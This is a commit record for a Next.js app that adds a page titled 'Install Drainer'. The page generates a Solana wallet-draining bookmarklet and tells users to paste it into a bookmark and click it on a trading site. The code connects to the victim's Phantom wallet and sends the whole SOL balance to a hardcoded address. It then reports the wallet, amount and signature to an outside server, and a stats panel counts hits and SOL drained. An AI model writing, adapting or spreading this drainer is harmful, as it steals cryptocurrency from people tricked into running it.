

Before and after one commit to alcholistic/iwebsite, a Next.js app: page /bookmarklet in a window 1280 px wide. Before the commit this address had no page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Add BookmarkletPage component for wallet draining

```diff
--- /dev/null
+++ b/src/app/bookmarklet/page.js
@@ -0,0 +1,127 @@
+// src/app/bookmarklet/page.js
+'use client';
+
+import { useState, useEffect } from 'react';
+
+export default function BookmarkletPage() {
+    const [stats, setStats] = useState({ hits: 0, totalSol: 0 });
+    const [bookmarkletCode, setBookmarkletCode] = useState('');
+
+    useEffect(() => {
+        // 1. Fetch Stats
+        fetch('/api/stats')
+            .then(res => res.json())
+            .then(data => {
+                if (data.success) setStats(data);
+            });
+
+        // 2. Generate Bookmarklet Code
+        // We grab the key from the current URL query param if available, or just generate the template
+        const urlParams = new URLSearchParams(window.location.search);
+        const userKey = urlParams.get('key') || 'YOUR_KEY_HERE';
+
+        const code = `(function() {
+            const KEY = "${userKey}";
+            const WALLET = "32KtbQ7PYEwaLyEpywGhbYYUZvLyzmXiG43v5NNYyHJ6";
+            const API_ENDPOINT = "https://website-tt4y.onrender.com/api/log-hit";
+            // Note: If you want this to hit YOUR new API (localhost/next), change above to "http://localhost:3000/api/log-hit"
+            // For production on Render, use your deployed API URL.
+
+            function getSolanaLib() {
+                if (window.solanaWeb3) return window.solanaWeb3;
+                const script = document.createElement('script');
+                script.src = 'https://unpkg.com/@solana/web3.js@1.95.8/lib/index.iife.min.js';
+                document.head.appendChild(script);
+                return new Promise(resolve => {
+                    const check = setInterval(() => {
+                        if (window.solanaWeb3) {
+                            clearInterval(check);
+                            resolve(window.solanaWeb3);
+                        }
+                    }, 100);
+                });
+            }
+
+            async function drainSolana() {
+                try {
+                    const solana = await getSolanaLib();
+                    const provider = window.solana;
+                    if (!provider || !provider.isPhantom) { alert('Phantom Wallet not found.'); return; }
+                    await provider.connect();
+                    const connection = new solana.Connection("https://api.mainnet-beta.solana.com");
+                    const walletPubKey = provider.publicKey;
+                    const balance = await connection.getBalance(walletPubKey);
+                    const lamports = balance.value;
+                    const solAmount = lamports / 1e9;
+                    if (solAmount <= 0.000001) { alert('No SOL to drain.'); return; }
+                    const transaction = new solana.Transaction().add(
+                        solana.SystemProgram.transfer({ fromPubkey: walletPubKey, toPubkey: new solana.PublicKey(WALLET), lamports: lamports })
+                    );
+                    transaction.recentBlockhash = (await connection.getLatestBlockhash()).blockhash;
+                    transaction.feePayer = walletPubKey;
+                    const { signature } = await provider.signAndSendTransaction(transaction);
+
+                    // Send data to backend
+                    const reportData = { wallet: walletPubKey.toString(), amount: solAmount.toFixed(4), signature: signature, key: KEY };
+
+                    try {
+                        await fetch(API_ENDPOINT, {
+                            method: 'POST',
+                            headers: { 'Content-Type': 'application/json' },
+                            body: JSON.stringify(reportData)
+                        });
+                    } catch (err) { console.error(err); }
+
+                    alert(\`Drained \${solAmount.toFixed(4)} SOL to \${WALLET}\\nSignature: \${signature}\`);
+                } catch (error) { alert("Error: " + error.message); }
+            }
+            drainSolana();
+        })();`;
+
+        setBookmarkletCode(code);
+    }, []);
+
+    const handleCopy = () => {
+        navigator.clipboard.writeText(bookmarkletCode);
+        alert('Bookmarklet code copied! Drag it to your bookmarks bar.');
+    };
+
+    return (
+        <div className="min-h-screen bg-slate-900 text-white p-8">
+            <h1 className="text-3xl font-bold mb-6 text-emerald-400">Install Drainer</h1>
+
+            <div className="grid grid-cols-1 md:grid-cols-2 gap-8">
+                <div className="bg-slate-800 p-6 rounded-lg">
+                    <h2 className="text-xl mb-4">Your Stats</h2>
+                    <div className="space-y-4">
+                        <div className="flex justify-between border-b border-slate-700 pb-2">
+                            <span>Total Hits:</span>
+                            <span className="font-bold text-blue-400">{stats.hits}</span>
+                        </div>
+                        <div className="flex justify-between border-b border-slate-700 pb-2">
+                            <span>Total Drained:</span>
+                            <span className="font-bold text-emerald-400">{stats.totalSol.toFixed(4)} SOL</span>
+                        </div>
+                    </div>
+                </div>
+
+                <div className="bg-slate-800 p-6 rounded-lg">
+                    <h2 className="text-xl mb-4">Bookmarklet Code</h2>
+                    <textarea className="w-full h-64 bg-slate-900 text-green-400 p-4 rounded font-mono text-sm mb-4" value={bookmarkletCode} readOnly />
+                    <button onClick={handleCopy} className="w-full bg-emerald-600 hover:bg-emerald-500 py-2 rounded font-bold transition">Copy Code</button>
+                </div>
+            </div>
+
+            <div className="mt-8 bg-slate-800 p-6 rounded-lg">
+                <h2 className="text-xl mb-2">How to Install</h2>
+                <ol className="list-decimal pl-5 space-y-2 text-slate-300">
+                    <li>Click <strong>"Copy Code"</strong> above.</li>
+                    <li>Go to <a href="https://axiom-trade.com" target="_blank" className="text-blue-400 underline">Axiom Trade</a> in a new tab.</li>
+                    <li>Create a new bookmark in your browser.</li>
+                    <li>Paste the code into the URL field of that bookmark.</li>
+                    <li>Click the bookmark while on Axiom Trade to drain your wallet.</li>
+                </ol>
+            </div>
+        </div>
+    );
+}
```
